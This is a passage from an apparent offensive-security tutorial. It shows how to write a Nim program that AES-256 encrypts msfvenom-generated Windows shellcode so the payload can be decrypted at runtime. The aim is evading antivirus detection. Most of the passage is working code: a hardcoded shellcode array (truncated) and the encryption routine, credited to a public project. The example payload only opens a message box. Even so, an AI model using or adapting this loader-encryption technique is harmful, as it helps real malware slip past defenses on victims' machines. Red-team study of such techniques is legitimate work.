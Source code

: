 We can write a encryption code, that will output a encrypted version of our payload. We will use that and decrypt it in runtime.

So let's create a new program **enc.nim**

Let's import the libraries we want and define the payload we want to encrypt.

```nim
import os
import strformat
import base64
import nimcrypto


#msfvenom -a x64 -p windows/x64/messagebox -f csharp
var code: array[295, byte] = [
    byte 0xfc,0x48,0x81,0xe4,0xf0,<snip>]
```

Now let's create a routine that can encrypt our payload. I found a [project](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim) by [S3cur3Th1sSh1t](https://twitter.com/ShitSecure). Am just reusing his work.

The program have the shellcode hardcoded and the password will be passed through command line.

```nim
var
    plaintext: array[295, byte] = code
    ectx: CTR[aes256]
    key: array[aes256.sizeKey, byte]
    encrypted: seq[byte] = newSeq[byte](len(plaintext))
var expandedKey = sha256.digest(paramStr(1))
copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))

echo fmt"[*] Encrypting shellcode using password: {paramStr(1)}"

# Change  IV
ectx.init(key, [byte 123, 231, 234, 243, 123, 231, 234, 243, 125, 249, 123, 231, 234, 243, 133, 149])

ectx.encrypt(plaintext, encrypted)
ectx.clear()

echo "[*] Writing encrypted base64 encoded shellcode :\n",encode(encrypted)
```

Once we have the code, let's compile and create our encrypted payload.

<p align="center"><img src="/images/nim/enc_shell.jpeg"></p>
